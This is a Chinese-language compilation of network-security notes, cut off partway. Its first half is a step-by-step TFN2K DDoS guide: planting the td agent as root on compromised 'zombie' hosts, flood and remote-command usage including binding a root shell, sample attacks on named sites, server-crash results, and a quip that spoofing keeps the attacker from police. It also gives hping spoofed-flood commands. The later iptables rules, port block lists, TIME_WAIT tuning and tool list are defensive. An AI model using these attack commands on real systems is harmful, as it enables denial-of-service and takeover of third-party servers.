(192.168.0.2:root): wjpfjy 331 Please specify the password. Password: 230 Login successful. Have fun. Remote system type is UNIX. Using binary mode to transfer files. ftp> put td (上传td) local: td remote: td 227 Entering Passive Mode (192,168,0,3,198,225) 553 Could not create file. ftp> by (退出ftp) 221 Goodbye. [root@test /]ssh 192.168.0.2 登陆到ag1 以执行td ,注意，我用的是root帐户，这样才有足够的权限来执行它. root@192.168.0.2s password: Last login: Tue Feb 24 06:51:13 2004 [root@ ag1 /]find / -name td -print 找到刚上传过来的文件td. [root@ ag1 wjpfjy/]chmod a+x td 使之具有执行权限. [root@ ag1 wjpfjy/]./td 运行td ，这样你就拥有一个代理了，它会对你唯命是从的:(。 用同样的方法在ag2 (192.168.0.3)上安装并运行TFN2k进程td. 6.攻击开始(悲惨的回忆上演中…) 回到master(192.168.0.6 )，准备演练… [root@master root]#touch host.txt 建立代理记录文件(因为如果你足够无聊的话，有可能会建立很多的肉鸡－代理，不记下会忘记的噢.) [root@master root]echo "192.168.0.2" > host.txt 将执行过td的ag1加入host.txt。 [root@master root]echo "192.168.0.3" >> host.txt 添加ag2到host.txt . 先来测试一下链接。 [root@master root]./tfn -f host.txt -c 10 -i "mkdir wjpfjy" 与host.txt中的代理通讯，让其执行命令mkdir wjpfjy即建立一个目录 Protocol : random Source IP : random Client input : list Command : execute remote command Password verification:这里，会被提示输入密码，也就是编译时输入的密码,如果错了，将无法与td进程通讯 Sending out packets: .. 到ag1和ag2看看有没有建立目录名wjpfjy，一般情况下,会存在于td的同一目录,如果不确定，可以用find / -name wjpfjy -print来查找 [root@master root]./tfn -f host.txt -c 6 -i 192.168.0.5 开始ICMP/PING 攻击aim…(可怜我的P4啊，不到5分钟,就跟386一样慢)，不过它在game over前，还是很艰辛的记录下了攻击数据,也算是对得住的那NK大洋啦.这是tcpdump的抓包记录. [root@aim root]# tcpdump -r pack.atta -c 4 -xX 08:03:36.524907 23.43.171.0 > 192.168.0.5 icmp: echo request [ttl 0] 0x0000 4500 005c 659d 0000 0001 d22e 172b ab00 E..\e……..+.. 0x0010 c0a8 0002 0800 f7ff 0000 0000 0000 0000 ……………. 0x0020 0000 0000 0000 0000 0000 0000 0000 0000 ……………. 0x0030 0000 0000 0000 0000 0000 0000 0000 0000 ……………. 0x0040 0000 0000 0000 0000 0000 0000 0000 0000 ……………. 0x0050 0000 .. 08:03:36.524933 192.168.0.5 > 23.43.171.0: icmp: echo reply 0x0000 4500 005c a5d5 0000 4001 51f6 c0a8 0002 E..\….@.Q….. 0x0010 172b ab00 0000 ffff 0000 0000 0000 0000 .+………….. 0x0020 0000 0000 0000 0000 0000 0000 0000 0000 ……………. 0x0030 0000 0000 0000 0000 0000 0000 0000 0000 ……………. 0x0040 0000 0000 0000 0000 0000 0000 0000 0000 ……………. 0x0050 0000 .. 08:03:36.524944 36.235.130.0 > 192.168.0.5: icmp: echo request [ttl 0] 0x0000 4500 005c 659d 0000 0001 ed6e 24eb 8200 E..\e……n$… 0x0010 c0a8 0002 0800 f7ff 0000 0000 0000 0000 ……………. 0x0020 0000 0000 0000 0000 0000 0000 0000 0000 ……………. 0x0030 0000 0000 0000 0000 0000 0000 0000 0000 ……………. 0x0040 0000 0000 0000 0000 0000 0000 0000 0000 ……………. 0x0050 0000 .. 08:03:36.524984 192.168.0.5 > 36.235.130.0: icmp: echo reply 0x0000 4500 005c 551c 0000 4001 bdef c0a8 0002 E..\U…@……. 0x0010 24eb 8200 0000 ffff 0000 0000 0000 0000 $…………… 0x0020 0000 0000 0000 0000 0000 0000 0000 0000 ……………. 0x0030 0000 0000 0000 0000 0000 0000 0000 0000 ……………. 0x0040 0000 0000 0000 0000 0000 0000 0000 0000 ……………. [root@master root]./tfn -f host.txt -c 0 停止攻击
Protocol : random Source IP : random Client input : list Command : stop flooding Password verification: Sending out packets: … 当然还有别的攻击方法，你只要用-c X就可以更改攻击方法. [root@master root]./tfn usage: ./tfn [-P protocol] Protocol for server communication. Can be ICMP, UDP or TCP. Uses a random protocol as default [-D n] Send out n bogus requests for each real one to decoy targets [-S host/ip] Specify your source IP. Randomly spoofed by default, you need to use your real IP if you are behind spoof-filtering routers [-f hostlist] Filename containing a list of hosts with TFN servers to contact [-h hostname] To contact only a single host running a TFN server [-i target string] Contains options/targets separated by @, see below [-p port] A TCP destination port can be specified for SYN floods <-c command ID> 0 - Halt all current floods on server(s) immediately 1 - Change IP antispoof-level (evade rfc2267 filtering) usage: -i 0 (fully spoofed) to -i 3 (/24 host bytes spoofed) 2 - Change Packet size, usage: -i 3 - Bind root shell to a port, usage: -i 4 - UDP flood, usage: -i victim@victim2@victim3@… 5 - TCP/SYN flood, usage: -i victim@… [-p destination port] 6 - ICMP/PING flood, usage: -i victim@… 7 - ICMP/SMURF flood, usage: -i victim@broadcast@broadcast2@… 8 - MIX flood (UDP/TCP/ICMP interchanged), usage: -i victim@… 9 - TARGA3 flood (IP stack penetration), usage: -i victim@… 10 - Blindly execute remote shell command, usage -i command 四.防守办法 就如同网上所有介绍DDOS的文章一样，DDOS防不胜防，我试着用防火墙过滤掉所有icmp包，来保护我的主机，但所实现 的，只是我的主机晚点儿崩溃而已.哎～，别指望我来防DDOS,要能防，我也不用不睡觉啊:( 还是那句老话，我们能做的，就是尽量让我们的主机不成为别人攻击的代理，并对intranet 内出行的包进行严格限制，尽量不去危害别人，只要大家都这样做，我们的网络环境才可以安全一些，至少，我可以安心睡几天觉. 附上我防火墙的一部分.主要是针对ICMP/PING的，不过用处不太大:( /sbin/iptables -P INPUT DROP /sbin/iptables -A INPUT -i lo -p all -j ACCEPT /sbin/iptables -A INPUT -i eth1 -p icmp -j ACCEPT /sbin/iptables -A INPUT -p icmp –icmp-type 8 -j DROP /sbin/iptables -A INPUT -s 127.0.0.2 -i lo -j ACCEPT /sbin/iptables -A INPUT -s 127.0.0.2 -i eth0 -j DROP /sbin/iptables -A INPUT -s $LANNET/24 -i eth0 -j DROP /sbin/iptables -A INPUT -s 172.16.0.0/12 -i eth0 -j DROP /sbin/iptables -A INPUT -s 10.0.0.0/8 -i eth0 -j DROP /sbin/iptables -A INPUT -i eth0 -m limit –limit 1/sec –limit-burst 5 -j ACCEPT/sbin/iptables -A INPUT -i eth0 -p udp -m state –state NEW -j REJECT /sbin/iptables -A INPUT -p tcp –dport 22 -j ACCEPT /sbin/iptables -A INPUT -p tcp –dport 80 -j ACCEPT /sbin/iptables -A INPUT -p tcp -i eth1 –dport 53 -j ACCEPT /sbin/iptables -A INPUT -p udp -i eth1 –dport 53 -j ACCEPT /sbin/iptables -A INPUT -p tcp -i eth0 -m state –state ESTABLISHED,RELATED -m tcp –dport 1024: -j ACCEPT /sbin/iptables -A INPUT -p udp -i eth0 -m state –state ESTABLISHED,RELATED -m udp –dport 1024: -j ACCEPT /sbin/iptales -A INPUT -p icmp –icmp-type echo-request -j LOG –log-level 2 /sbin/iptables -A INPUT -i eth0 -p icmp –icmp-type echo-request -j DROP /sbin/iptables -A INPUT -p tcp -m multiport –destination-port 135,137,138,139 -j LOG /sbin/iptables -A INPUT -p udp -m multiport –destination-port 135,137,138,139 -j LOG /sbin/iptables -A INPUT -i eth0 -p tcp –dport 2000 -j ACCEPT /sbin/iptables -A INPUT -i eth0 -p tcp –dport 2001 -j ACCEPT /sbin/iptables -A INPUT -p tcp -i eth1 -m state –state ESTABLISHED,RELATED -m tcp –dport 1024: -j ACCEPT
- 测试
首先说我们用来攻击的客户机和服务器的配置办法，使用当下最有名的REDHAT LINUX进行测试，本次攻击测试我使用的是FEDORA CORE3 ，软件用的是最有名的DDOS。 废话不说了,开始设置服务器。 解压 tar -zxvf tfn2k.tgz 一.安装TFN2K TFN2K为开放原代码的软件，所以需要我们进行编译，这个不用说了，编译应该都会的吧，但有几个地方是必需注意的，因为使用不同版本和厂商的LINUX需要不同的设置。 先修改src/ip.h 注释掉以下部分，否则编译出错。 /*struct inaddr { unsigned long int saddr; };*/ 然后make进行编译 编译时会提示你输入服务器端进行密码设置8-32位，(攻击的时候需要输入密码)编译后会出现两个新的执行文件td 和 tfn,其中td是守护进程，也是客户机的使用进程。而tfn是服务器控制进程，如果想攻击别人就必需先起动td这个进程，然后再运行服务器进程，否则攻 击无效,更改密码可以执行mkpass进行更改。最后在所有的客户机中安装并运行td(需要ROOT权限)，并且在服务器上建立一个文本文件，文件中记录 所有的客户机IP地址(用VI编辑一个就可行了)，格式为: 192.168.0.1 192.168.0.2 192.168.0.3 IP IP …… 然后在主服务器上运行./tfn 二.攻击 ./tfn直接回车大家可以看到一些参数,英文好的朋友估计不用我来多讲了:) 格式./tfn <参数> 无用的参数我们不提,我们来说攻击用的 -f 这个参数后面跟刚才所写的文本文件名,就是真正实现DDOS攻击,而不是DOS -h DOS攻击,也就是单机,一对一的攻击 后面跟一个主机或IP地址 -p 后面指定一个端口,不用说了 -c 最关键的参数,一共有11个选相 0 - 停止攻击,发善心用的 1 - 反欺骗等级设定 ,因为TFN这个工具在攻击的时候所发出的数据包是带有源地址的,但是源地址是随机的,也就是说地址不是你自给的,所以不用担心警察抓,哈哈 2 - 改编数据包的包尺寸：缺省的ICMP/8,smurf,udp攻击缺省使用最小包。你可以通过改变每个包的有效载荷的字节增加它的大小。 3 - 绑定root 启动一个会话服务，然后你连接一个指定端口就可以得到一个root shell。 4 - UDP洪水攻击：这个攻击是利用这样一个事实：每个udp包被送往一个关闭的端口，这样就会有一个ICMP不可到达的信息返回，增加了攻击的能力。 5 - SYN洪水攻击：这个攻击有规律的送虚假的连接请求。结果会是目标端口拒绝服务，添瞒TCP连接表，通过对不存在主机的TCP/RST响应增加攻击潜力,是标准的拒绝服务攻击. 6 - ICMP响应(ping)攻击：这个攻击发送虚假地址的ping请求，目标主机会回送相同大小的响应包。 7 - SMURF攻击：用目标主机的地址发送ping请求以广播扩大，这样目标主机将得到回复一个多倍的回复。 8 - MIX攻击：按照1:1:1的关系交替的发送udp,syn,icmp包，这样就可以对付路由器，其它包转发设备，NIDS,sniffers等,轮番轰炸:) 9 - TARGA3攻击 10 - 远程命令执行,这个参数是TFN的附加功能,其实TFN的攻击不仅仅是DOS,还可以远程的进行明令控制,如: ./tfn -f hostext -c 10 -i "mkdir /root/edison" 在所有的HOST上root家目录建立edison,-i后面跟"命令" 参数基本说完,下面攻击 ./tfn -f hostext -c 4 -i www.xxx.com 使用hostext文件中记录的主机对163服务器进行UDP攻击(所有的主机中必需已经起动td进程) ./tfn -f hostext -c 5 -i www.xxx.com -p 80 使用hostext文件中记录的主机对163服务器进行TCP拒绝服务攻击(80攻击WEB,其他不用说了) ./tfn -f hostext -c 6 -i www.xxx.com 使用hostext文件中记录的主机对163服务器进行ICMP攻击(PING攻击,缓冲区溢出马上死机) ./tfn -f hostext -c 8 -i www.xxx.com 使用hostext文件中记录的主机对163服务器进行ICMP&TCP&UDP轮番攻击(如果对方是sniffer一定哭死) ./tfn -f hostext -c 0 让所由主机停止攻击 基本说完,最后说说我的测试结果 一对一攻击,攻击方式TCP 连接方式本地 本地CPU13% 被攻击的服务器CPU使用率70%以上,并时时波动 二对一攻击,攻击方式TCP 连接方式本地 本地单机CPU13% 被攻击的服务器CPU使用率100% 五对一攻击,攻击方式TCP 连接方式本地 本地单机CPU13% 被攻击的服务器死机.本人家里只有6台机器,但如果再多点,几十台机器,一般的个人服务器肯定要死掉了 一对一攻击,攻击方式ICMP 连接方式本地 本地CPU18% 被攻击的服务器CPU使用率96%以上,并时时波动二对一攻击,攻击方式ICMP 连接方式本地 本地单机CPU18% 被攻击的服务器以经无法上网,几乎无法使用,半小时内死机.看来威力不小。
4.2.4 使用 Hping 模擬 DDos 攻擊
使用 Hping 模擬 DDos 攻擊 使用 Hping 模擬 DDos 攻擊 (这个可以在snort上试一试)
安裝hping (建議將hping2.0.0-rc1.tar.gz檔案放在 /usr/local下)
要看說明，可以輸入 hping2 –help
下面是一些常用的方法
hping www.abc.net.tw -1 -i u100000 -a 100.100.100.100 每秒送10個(-i u10000)ICMP(-1)封包到www.abc.net.tw 偽造來源IP(-a)為100.100.100.100
註：-1為數字非英文
hping www.abc.net.tw –i u1000000 –a 100.100.100.100 –s 22222 –p 44444 每秒送1個(-i u1000000)TCP(default)封包到www.abc.net.tw的port 44444，偽造來源IP(-a)100.100.100.100使用的port為22222
測試1： SYN Flooding(每秒10個封包) hping 目標主機IP –i u100000 –S –a 偽造來源IP
測試2 ：偽造IP的ICMP封包(每秒10個封包) hping 目標主機IP –i u100000 –1 –a 偽造來源IP 註：-1為數字非英文
測試3：不正常TCP Flag組合封包(每秒10個封包) (a)SYN+FIN hping 目標主機IP –i u100000 –S –F –a 偽造來源IP (b)X’mas hping 目標主機IP –i u100000 –F –S –R –P –A –U –a 偽造來源IP 測試4：偽造IP的UDP封包 hping目標主機IP –i u100000 –2 –a 偽造來源IP
測試5：偽造IP內含CodeRed封包 hping 目標主機IP –i u100000 –d [封包datasize] –E [filename] –a [偽造來源IP]
PS：您可以拿它來測試您的系統防護能力，但是千萬別拿來亂用
4.3 linux 下 iptables 防止 syn ddos ping 等 攻击
先来一个自己用的实例： 配置防火墙防止syn，ddos攻击 [root@m176com ~]# vim /etc/sysconfig/iptables 在iptables中加入下面几行 #anti syn，ddos -A FORWARD -p tcp –syn -m limit –limit 1/s –limit-burst 5 -j ACCEPT -A FORWARD -p tcp –tcp-flags SYN,ACK,FIN,RST RST -m limit –limit 1/s -j ACCEPT -A FORWARD -p icmp –icmp-type echo-request -m limit –limit 1/s -j ACCEPT 说明： 第一行：每秒中最多允许5个新连接 第二行：防止各种端口扫描 第三行：Ping洪水攻击（Ping of Death） 可以根据需要调整或关闭 重启防火墙 [root@m176com ~]# /etc/init.d/iptables restart 屏蔽一个IP
怎么防止别人ping我？？
防止同步包洪水（Sync Flood）
防止各种端口扫描
Ping洪水攻击（Ping of Death） #iptables -A FORWARD -p icmp –icmp-type echo-request -m limit –limit 1/s -j ACCEPT
iptables -A INPUT -i eth0 -p tcp –tcp-flags ALL ALL -j DROP
iptables -A INPUT -i eth0 -p tcp –tcp-flags ALL NONE -j DROP
##限制对内部封包的发送速度 #iptables -A INPUT -f -m limit –limit 100/s –limit-burst 100 -j ACCEPT
##限制建立联机的转 #iptables -A FORWARD -f -m limit –limit 100/s –limit-burst 100 -j ACCEPT
一个不错的防火墙代码 #####################################################
-A INPUT -f -m limit –limit 100/sec –limit-burst 100 -j ACCEPT
-A INPUT -p tcp -m tcp –tcp-flags SYN,RST,ACK SYN -m limit –limit 20/sec –limit-burst 200 -j
ACCEPT
-A INPUT -p udp -m udp –dport 138 -j DROP
-A INPUT -p udp -m udp –dport 137 -j DROP
-A INPUT -p tcp -m tcp –dport 1068 -j DROP
-A INPUT -p icmp -m limit –limit 12/min –limit-burst 2 -j DROP
-A FORWARD -f -m limit –limit 100/sec –limit-burst 100 -j ACCEPT
-A FORWARD -p tcp -m tcp –tcp-flags SYN,RST,ACK SYN -m limit –limit 20/sec –limit-burst 200
-j ACCEPT
-A FORWARD -p tcp -m tcp –dport 445 -j DROP
-A FORWARD -p udp -m udp –dport 138 -j DROP
-A FORWARD -p udp -m udp –dport 137 -j DROP
-A FORWARD -p tcp -m tcp –dport 1068 -j DROP
-A FORWARD -p tcp -m tcp –dport 5554 -j DROP
-A FORWARD -p icmp -j DROP
:PREROUTING ACCEPT [986908:53126959]
:POSTROUTING ACCEPT [31401:2008714]
:OUTPUT ACCEPT [30070:1952143]
-A POSTROUTING -p tcp -m tcp –dport 445 -j DROP
#####################################################
iptables 防火墙例子
#!/bin/bash
echo "Enable IP Forwarding…" echo 1 > /proc/sys/net/ipv4/ipforward echo "Starting iptables rules…"
IFACE="eth0"
modprobe iptables modprobe iptablenat modprobe ipnatftp modprobe ipnatirc modprobe ipconntrack modprobe ipconntrackftp modprobe ipconntrackirc modprobe iptMASQUERADE
/sbin/iptables -F /sbin/iptables -X /sbin/iptables -Z /sbin/iptables -F -t nat /sbin/iptables -X -t nat /sbin/iptables -Z -t nat
/sbin/iptables -X -t mangle
/sbin/iptables -P INPUT DROP /sbin/iptables -P FORWARD ACCEPT /sbin/iptables -P OUTPUT ACCEPT /sbin/iptables -t nat -P PREROUTING ACCEPT /sbin/iptables -t nat -P POSTROUTING ACCEPT /sbin/iptables -t nat -P OUTPUT ACCEPT
/sbin/iptables -A INPUT -f -m limit –limit 100/sec –limit-burst 100 -j ACCEPT /sbin/iptables -A INPUT -p tcp -m tcp –tcp-flags SYN,RST,ACK SYN -m limit –limit 20/sec –limit-burst 200 -j ACCEPT
/sbin/iptables -A INPUT -p icmp -m limit –limit 12/min –limit-burst 2 -j DROP
/sbin/iptables -A FORWARD -f -m limit –limit 100/sec –limit-burst 100 -j ACCEPT /sbin/iptables -A FORWARD -p tcp -m tcp –tcp-flags SYN,RST,ACK SYN -m limit –limit 20/sec –limit-burst 200 -j ACCEPT
/sbin/iptables -A INPUT -i $IFACE -p tcp –dport 21 -j ACCEPT /sbin/iptables -A INPUT -i $IFACE -p tcp –dport 22 -j ACCEPT /sbin/iptables -A INPUT -i $IFACE -p tcp –dport 25 -j ACCEPT /sbin/iptables -A INPUT -i $IFACE -p tcp –dport 53 -j ACCEPT /sbin/iptables -A INPUT -i $IFACE -p udp –dport 53 -j ACCEPT /sbin/iptables -A INPUT -i $IFACE -p tcp –dport 80 -j ACCEPT /sbin/iptables -A INPUT -i $IFACE -p tcp –dport 100 -j ACCEPT /sbin/iptables -A INPUT -i $IFACE -p tcp –dport 113 -j ACCEPT
iptables -I INPUT -p udp –dport 69 -j DROP iptables -I INPUT -p tcp –dport 135 -j DROP iptables -I INPUT -p udp –dport 135 -j DROP iptables -I INPUT -p tcp –dport 136 -j DROP iptables -I INPUT -p udp –dport 136 -j DROP iptables -I INPUT -p tcp –dport 137 -j DROP iptables -I INPUT -p udp –dport 137 -j DROP iptables -I INPUT -p tcp –dport 138 -j DROP iptables -I INPUT -p udp –dport 138 -j DROP iptables -I INPUT -p tcp –dport 139 -j DROP iptables -I INPUT -p udp –dport 139 -j DROP iptables -I INPUT -p tcp –dport 445 -j DROP iptables -I INPUT -p udp –dport 445 -j DROP iptables -I INPUT -p tcp –dport 593 -j DROP iptables -I INPUT -p udp –dport 593 -j DROP iptables -I INPUT -p tcp –dport 1068 -j DROP iptables -I INPUT -p udp –dport 1068 -j DROP iptables -I INPUT -p tcp –dport 4444 -j DROP iptables -I INPUT -p udp –dport 4444 -j DROP iptables -I INPUT -p tcp –dport 5554 -j DROP iptables -I INPUT -p tcp –dport 1434 -j DROP iptables -I INPUT -p udp –dport 1434 -j DROP iptables -I INPUT -p tcp –dport 2500 -j DROP iptables -I INPUT -p tcp –dport 5800 -j DROP iptables -I INPUT -p tcp –dport 5900 -j DROP iptables -I INPUT -p tcp –dport 6346 -j DROP iptables -I INPUT -p tcp –dport 6667 -j DROP iptables -I INPUT -p tcp –dport 9393 -j DROP
iptables -I FORWARD -p udp –dport 69 -j DROP iptables -I FORWARD -p tcp –dport 135 -j DROP iptables -I FORWARD -p udp –dport 135 -j DROP iptables -I FORWARD -p tcp –dport 136 -j DROP iptables -I FORWARD -p udp –dport 136 -j DROP iptables -I FORWARD -p tcp –dport 137 -j DROP iptables -I FORWARD -p udp –dport 137 -j DROP iptables -I FORWARD -p tcp –dport 138 -j DROP iptables -I FORWARD -p udp –dport 138 -j DROP iptables -I FORWARD -p tcp –dport 139 -j DROP iptables -I FORWARD -p udp –dport 139 -j DROP iptables -I FORWARD -p tcp –dport 445 -j DROP iptables -I FORWARD -p udp –dport 445 -j DROP iptables -I FORWARD -p tcp –dport 593 -j DROP iptables -I FORWARD -p udp –dport 593 -j DROP iptables -I FORWARD -p tcp –dport 1068 -j DROP iptables -I FORWARD -p udp –dport 1068 -j DROP iptables -I FORWARD -p tcp –dport 4444 -j DROP iptables -I FORWARD -p udp –dport 4444 -j DROP iptables -I FORWARD -p tcp –dport 5554 -j DROP iptables -I FORWARD -p tcp –dport 1434 -j DROP iptables -I FORWARD -p udp –dport 1434 -j DROP iptables -I FORWARD -p tcp –dport 2500 -j DROP iptables -I FORWARD -p tcp –dport 5800 -j DROP iptables -I FORWARD -p tcp –dport 5900 -j DROP iptables -I FORWARD -p tcp –dport 6346 -j DROP iptables -I FORWARD -p tcp –dport 6667 -j DROP iptables -I FORWARD -p tcp –dport 9393 -j DROP
/sbin/iptables -A INPUT -i $IFACE -m state –state RELATED,ESTABLISHED -j ACCEPT /sbin/iptables -A INPUT -i $IFACE -m state –state NEW,INVALID -j DROP
/sbin/iptables -A INPUT -p icmp -j DROP
/sbin/iptables -I INPUT -s 222.182.40.241 -j DROP
4.4 linux 大量的TIMEWAIT解决办法
早上登陆服务器的时候输入netstat -an|grep mysql 发现存在大量TIMEWAIT状态的连接 tcp 0 0 127.0.0.1:3306 127.0.0.1:41378 TIMEWAIT tcp 0 0 127.0.0.1:3306 127.0.0.1:41379 TIMEWAIT tcp 0 0 127.0.0.1:3306 127.0.0.1:39352 TIMEWAIT tcp 0 0 127.0.0.1:3306 127.0.0.1:39350 TIMEWAIT tcp 0 0 127.0.0.1:3306 127.0.0.1:35763 TIMEWAIT tcp 0 0 127.0.0.1:3306 127.0.0.1:39372 TIMEWAIT tcp 0 0 127.0.0.1:3306 127.0.0.1:39373 TIMEWAIT tcp 0 0 127.0.0.1:3306 127.0.0.1:41176 TIMEWAIT
通过调整内核参数解决 vi /etc/sysctl.conf
编辑文件，加入以下内容： net.ipv4.tcpsyncookies = 1 net.ipv4.tcptwreuse = 1 net.ipv4.tcptwrecycle = 1 net.ipv4.tcpfintimeout = 30
然后执行/sbin/sysctl -p让参数生效。
net.ipv4.tcpsyncookies = 1表示开启SYN Cookies。当出现SYN等待队列溢出时，启用cookies来处理，可防范少量SYN攻击，默认为0，表示关闭；
net.ipv4.tcptwreuse = 1表示开启重用。允许将TIME-WAIT sockets重新用于新的TCP连接，默认为0，表示关闭；
net.ipv4.tcptwrecycle = 1表示开启TCP连接中TIME-WAIT sockets的快速回收，默认为0，表示关闭。
net.ipv4.tcpfintimeout修改系統默认的TIMEOUT时间
修改之后，再用命令查看TIMEWAIT连接数 netstat -ae|grep “TIMEWAIT” |wc –l
发现大量的TIMEWAIT 已不存在，mysql进程的占用率很快就降下来的，网站访问正常。 不过很多时候，出现大量的TIMEWAIT状态的连接，往往是因为网站程序代码中没有使用mysql.colse()，才导致大量的mysql TIMEWAIT.
如果你的服务器是Windows平台，可以修改下面的注册表键值： [HKEYLOCALMACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters] "TcpTimedWaitDelay"=dword:0000001e
此值是TIMEWAIT状态的最长时间。缺省为240秒，最低为30秒，最高为300秒。建议为30秒。
注释： （ 1，TCP结束的过程如下:
Server Client
–———— FIN –————> server: finwait1
<-———— ACK ————— client: closewait server:finwait2
<-———— FIN ————— client发出fin之后就关闭
–———— ACK -————> server发出ack后进入timewait状态
TimeWait的默认时间是2倍的MLS，就是240秒钟。MLS是TCP片在网上的最长存活时间。 TIMEWait的主要作用是保证关闭的TCP端口不立即被使用。因为当网络存在延迟时，可能当某个端口被关闭后，网络中还有一些重传的TCP片在发向这个端口，如果这个端口立即建立新的TCP连接，则可能会有影响。所以使用2倍的MSL时间来限制这个端口立即被使用。
现在的问题在于，4分钟的时间有点长。 因此，Timewait的影响，我想，首先每个TCP连接都各自有个数据结构，叫TCP Control Block.Timewait的时候这个数据结构没有被释放。所以当有太多的TCP连接时，内存可能会被占用很多。
2，To ValorZ：TIMEWAIT状态也称为2MSL等待状态，而不是2MLS，笔误吧！
每个TCP报文在网络内的最长时间，就称为MSL（Maximum Segment Lifetime），它的作用和IP数据包的TTL类似。
RFC793指出，MSL的值是2分钟，但是在实际的实现中，常用的值有以下三种：30秒，1分钟，2分钟。
注意一个问题，进入TIMEWAIT状态的一般情况下是客户端，大多数服务器端一般执行被动关闭，不会进入TIMEWAIT状态，当在服务器端关闭某个服务再重新启动时，它是会进入TIMEWAIT状态的。
举例： 1.客户端连接服务器的80服务，这时客户端会启用一个本地的端口访问服务器的80，访问完成后关闭此连接，立刻再次访问服务器的80，这时客户端会启用另一个本地的端口，而不是刚才使用的那个本地端口。原因就是刚才的那个连接还处于TIMEWAIT状态。 2.客户端连接服务器的80服务，这时服务器关闭80端口，立即再次重启80端口的服务，这时可能不会成功启动，原因也是服务器的连接还处于TIMEWAIT状态。
4.5 75个顶级开源安全应用
2009年网络犯罪投诉数量增长了20%，受害者所遭受的经济损失是去年的两倍多，达到了5.59亿美元。随着网络犯罪数量的增长，保护系统安全显得比 以往任何时候都更加重要。不过，你并非一定要花钱购买安全应用，开源社区一直在不断开发优秀的安全工具，以满足更广泛的安全需要。国外安全专家辛西娅•哈 维(Cynthia Harvey)总结出了75个顶级开源安全应用工具，本文将按不同的分类将其列出，供大家参考。
4.5.1 反病毒/反恶意软件工具
1、ClamAV
最著名、最受欢迎的开源反病毒引擎，大量商业和开源安全应用都使用了该引擎。该软件可以运行在Linux/Unix操作系统上。
2、ClamWin Free Antivirus
从名称上可以看出，这个应用可以让你在Windows上使用ClamAV。最新 版支持Windows 7，且相比之前版本速度快了很多。
3、ClamTk
和ClamWin一 样，ClamTK为ClamAV引擎提供了一个前端页面，不过它适用的操作系统是Linux。它允许用户制定系统扫描计划，但它不能对进入系统的文件提供 实时扫描。
4、Rootkit Hunter
这个简单的工具可以扫描Linux系统上的rootkit和其它 恶意软件。尽管它不能提供实时或按计划的系统扫描，其官网上介绍了一种方法帮助用户实现每天进行系统扫描。操作系统：Linux、Unix。
5、No Autorun
该工具可以阻挡USB硬盘上任何病毒的自动运行。操作系统：Windows。
反间谍软件
6、Nixory
如果你 使用火狐浏览器，Nixory可以保护用户阻挡不请自来的Cookie和间谍软件。重要的是，它可以配合现有反病毒和防火墙解决方案，该软件与操作系统无 关。
应用防火墙
7、 AppArmor
这个应用防火墙包含在openSUSE和SUSE Linux企业版中，它使用基于策略的规范来控制不同应用程序的访问权限。它可以帮助用户防护那些利用应用程序漏洞的恶意软件。操作系统：Linux。
8、ModSecurity
在面临攻击时，该工具可以提供给用户外层保护。最新版发布于今年2月份，增加了众多新功能，诸如信用 卡号码检测、自动规则更新和类似文本匹配等。该工具与操作系统类型无关。
4.5.2 数据删除
9、BleachBit
BleachBit 是一款专为 Linux 设计的系统清理工具。使用BleachBit，你可以清理系统中的缓存、历史、临时文件、cookies 等不需要的东西，这样可以释放你的磁盘空间。当前，BleachBit能够清理 Beagle、Firefox、Opera、Epiphany、Flash、OpenOffice.org 等软件所产生的垃圾文件。操作系统：Windows、Linux。
10、Eraser
众所周知，借助工具可以 找回已经删除的文件。Eraser可以确保没有人能够恢复你的老文件，办法是用随机数据来覆盖它。操作系统：Windows。
11、 Wipe
Wipe的功能类似Eraser，不过它运行在Linux操作系统上。
12、Darik's Boot and Nuke
该工具可以帮你彻底删除硬盘上的数据，以免造成信息泄露。
13、Disk Cleaner
借助这个小工具，用户可以清楚自己临时文件或缓存中的所有垃圾信息。它应该在我们的安全工具中拥有一席之地，因为当用户在使用公共 计算机时，它可以方便的保护用户隐私。操作系统：Windows。 开发者工具
14、OWASP
它向担心应用程序安全性的开发者提供了许多文档、应用程序和工具。关键项目包括 WebGoat、ESAPI Java安全库和众多标准和指南。
15、php ClamAV
该软件包允许用户 合并ClamAV引擎到PHP5脚本中。操作系统：Linux。
16、MCrypt
即便开发者并不了解太多加 密知识，也可以借助该工具向自己的代码增加大量加密功能。支持操作系统：Windows、Linux和Unix。
4.5.3 加密
17、AxCrypt
该软件被下 载的次数已经超过100万次。在Windows资源浏览器中右键点击一个文件就能对其进行加密，而双击则可解密数据。操作系统：Windows。
18、Gnu Privacy Guard
它是OpenPGP数字签名和解密信息标准的GNU实现。尽管该应用运行于命令行界 面，在其官网上可以找到其图形化前端界面应用的链接。支持操作系统：Windows、Linux和OS X。
19、Mac GNU Privacy Guard
如你所料，这个应用是Mac版的GnuPG。操作系统：OS X。
20、 gpg4win
它是Windows版的Gnu Privacy Guard。
21、PeaZip
PeaZip是一款优秀的压缩管理工具，不过同时它也可以使用不同的算法来加密文件，非常适合于对文件进行归档或保护及压缩大文件。操作系 统：Windows、Linux。
22、Steghide
如果你想体验间谍的感觉，你可以使用该工具来讲信息 隐藏于音频或文本文件中。它支持JPEG、WAV和AU文件。
23、MailCrypt
该应用程序可对电子邮 件应用PGP或GnuPGP加密。如果你使用Windows NT，务必要读一下官网上的警示信息。
24、Crypt
该工具无需安装，不会弄乱注册表键值。它是一个轻量级的加密解密工具。操作系统：Windows。
25、NeoCrypt
该工具的界面非常容易上手。它支持10种常见的加密算法。另外如果你需要一次加密大量文件，它的批量文件加密功能将非常有用。操作系 统：Windows。 26、WinSCP
使用SFTP或SCP协议安全的传输文件。另外，该工具还具有一个简单的文件管理器和FTP传输工具。操作系 统：Windows。
27、FileZilla
和WinSCP一样，FileZilla也支持安全的文件传 输。而且，它不仅能够和WinSCP一样提供客户端功能（下载文件），而提供服务器功能（上传文件）。服务器版仅适用于Windows。操作系 统：Windows、Linux、OS X。
4.5.4 计算机取证
28、ODESSA
ODESSA是“ Open Digital Evidence Search and Seizure Architecture”（开放数字证据搜索及获取架构）的首字母缩写，它包含几个不同工具来收集和分析数字证据，而且能够创建详细易懂的分析结果报 表。操作系统：Windows、Linux
29、Live View
这个基于Java的工具为目标计算机创建 一个VMWare虚拟镜像，这样你无须改变底层镜像或磁盘就能够与它进行交互。开发者为CERT和卡耐基梅隆大学的软件工程协会。它是法庭检察官的一个优 秀工具。操作系统：Windows。
30、The Sleuth Kit
这是一个命令行工具，适用操作系统包 括Linux、Unix、OS X、Solaris和BSD系统。
4.5.5 网关/UTM（统一威胁管理）工具
31、Endian Firewall Community
